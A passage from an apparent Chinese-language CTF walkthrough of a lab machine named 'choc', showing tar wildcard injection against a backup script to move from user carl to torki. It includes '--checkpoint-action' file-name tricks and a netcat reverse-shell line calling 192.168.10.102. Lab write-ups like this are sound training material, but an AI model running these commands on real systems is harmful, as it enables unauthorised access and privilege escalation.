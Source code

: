 咱们居然在这个备份目录里有可写权限，是不是意味着接下来的漏洞利用是围绕着这个压缩备份操作进行的。。。。

随便写一个文件进去，看看有啥变化：

```bash
(remote) carl@choc:/home/torki/secret_garden$ ls -la /tmp/backup_home.tgz 
-rw-r--r-- 1 torki torki 10240 Jun 14 10:31 /tmp/backup_home.tgz
(remote) carl@choc:/home/torki/secret_garden$ echo 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa' > temp
(remote) carl@choc:/home/torki/secret_garden$ ls -la /tmp/backup_home.tgz                  
-rw-r--r-- 1 torki torki 10240 Jun 14 10:32 /tmp/backup_home.tgz
(remote) carl@choc:/home/torki/secret_garden$ ls -la /tmp/backup_home.tgz 
-rw-r--r-- 1 torki torki 10240 Jun 14 11:10 /tmp/backup_home.tgz
```

说明不是压缩整个目录的，只是个别文件，

>  参考：
>
> - https://gtfobins.github.io/gtfobins/tar/
> - https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/wildcards-spare-tricks.html?highlight=tar#tar

尝试通过`tar`的不安全配置执行相关命令。。。

```bash
(remote) carl@choc:/home/torki/secret_garden$ touch -- "--checkpoint=1"
(remote) carl@choc:/home/torki/secret_garden$ touch -- "--checkpoint-action=exec=sh shell.sh"
(remote) carl@choc:/home/torki/secret_garden$ echo "nc -e /bin/bash 192.168.10.102 2345" > shell.sh
(remote) carl@choc:/home/torki/secret_garden$ chmod +x shell.sh
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506142329097.png" alt="image-20250614171906332" style="zoom:50%;" />

### python反弹shell

```bash
(remote) torki@choc:/home/torki/secret_garden$ ls -la
total 20
drwxrwxrwx 2 torki torki 4096 Jun 14 11:18  .
drwxr-xr-x 6 torki torki 4096 Apr 19  2021  ..
-rw-r--r-- 1 carl  carl     0 Jun 14 11:18 '--checkpoint=1'
-rw-r--r-- 1 carl  carl     0 Jun 14 11:18 '--checkpoint-action=exec=sh shell.sh'
-rw-r--r-- 1 torki torki  325 Apr 20  2021  diary.txt
-rwxr-xr-x 1 carl  carl    36 Jun 14 11:18  shell.sh
-rw-r--r-- 1 carl  carl    32 Jun 14 10:31  temp
(remote) torki@choc:/home/torki/secret_garden$ cd ../
(remote) torki@choc:/home/torki$ ls -la
total 44
drwxr-xr-x 6 torki torki 4096 Apr 19  2021 .
drwxr-xr-x 5 root  root  4096 Apr 18  2021 ..
-rwx------ 1 torki torki   71 Apr 18  2021 backup.sh
lrwxrwxrwx 1 root  root     9 Apr 18  2021 .bash_history -> /dev/null
-rw-r--r-- 1 torki torki  220 Apr 12  2021 .bash_logout
-rw-r--r-- 1 torki torki 3526 Apr 12  2021 .bashrc
drwx------ 3 torki torki 4096 Apr 12  2021 .gnupg
drwxr-xr-x 3 torki torki 4096 Apr 18  2021 .local
-rw-r--r-- 1 torki torki  807 Apr 12  2021 .profile
drwxrwxrwx 2 torki torki 4096 Jun 14 11:18 secret_garden
-rw-r--r-- 1 torki torki   66 Apr 18  2021 .selected_editor
drwx------ 2 torki torki 4096 Apr 12  2021 .ssh
(remote) torki@choc:/home/torki$ cat bashup.sh 
cat: bashup.sh: No such file or directory
(remote) torki@choc:/home/torki$ cat backup.sh 
#!/bin/bash
cd /home/torki/secret_garden
tar cf /tmp/backup_home.tgz *
(remote) torki@choc:/tmp$ sudo -l
```